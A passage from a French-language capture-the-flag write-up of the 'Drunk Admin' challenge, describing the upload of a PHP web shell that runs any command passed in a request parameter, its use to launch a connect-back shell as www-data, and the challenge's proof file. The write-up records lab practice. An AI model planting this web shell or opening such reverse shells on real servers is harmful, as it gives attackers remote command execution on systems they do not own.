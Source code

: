 J'ai préféré utiliser la première méthode. Notez aussi que dans la configuration PHP on voyait aussi que les tags PHP courts étaient activés.  

Du coup j'ai écrit la backdoor suivante :  

```php
<?                                                                                                                                                          
  exec($_REQUEST["cmd"], $response);                                                                                                                        
  foreach($response as $line) {                                                                                                                             
      echo "$line\n";                                                                                                                                       
  }                                                                                                                                                         
?>
```

Un upload et une exécution de *tshd* en mode connect-back plus tard (*/images/\_hash\_.phtml?cmd=setsid%20./tshcbd*) :  

```plain
$ ./tsh cb
Waiting for the server to connect...connected.
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/images
```

Dans */var/www*, on découvre un fichier *.proof* avec le contenu suivant :  

```plain
#########################
# Drunk Admin Challenge #
#     by @anestisb      #
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
```

Une dernière pour la route
--------------------------
